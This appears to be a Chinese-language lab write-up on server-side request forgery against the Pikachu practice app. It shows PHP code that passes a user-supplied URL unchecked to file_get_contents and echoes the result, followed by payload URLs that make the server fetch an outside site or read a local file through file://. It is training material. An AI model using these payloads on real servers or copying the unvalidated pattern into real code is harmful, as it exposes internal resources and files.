 ### SSRF(file_get_content)

**服务器端核心代码**
```php
if(isset($_GET['file']) && $_GET['file'] !=null){
    $filename = $_GET['file'];
    $str = file_get_contents($filename);
    echo $str;
}
```

- **file_get_contents() 函数**

    file() 函数把整个文件读入一个数组中。和 file() 一样，不同的是 file_get_contents() 把文件读入一个字符串。

    file_get_contents() 函数是用于将文件的内容读入到一个字符串中的首选方法。如果操作系统支持，还会使用内存映射技术来增强性能。

**漏洞利用**

观察url: `http://<IP address !!!>/pikachu/vul/ssrf/ssrf_fgc.php?file=http://127.0.0.1/pikachu/vul/ssrf/ssrf_info/info2.php`

看上去没什么变化，试试构造 payload: `http://<IP address !!!>/pikachu/vul/ssrf/ssrf_fgc.php?file=http://www.baidu.com`

payload: `http://<IP address !!!>/pikachu/vul/ssrf/ssrf_fgc.php?file=file:///c:/1.txt`
